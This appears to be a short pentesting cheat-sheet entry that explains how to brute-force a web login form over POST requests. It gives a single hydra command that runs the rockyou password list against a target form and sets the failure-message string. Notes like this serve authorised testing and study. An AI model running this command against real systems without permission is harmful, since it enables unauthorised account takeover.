# bruteforce via post request

rhost contains just the dns or ip. When the form isnt in the root path specify
the url befor *:username*. Text for failed login attempt can be set after
*:F*.

```bash
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt "$rhost" http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```
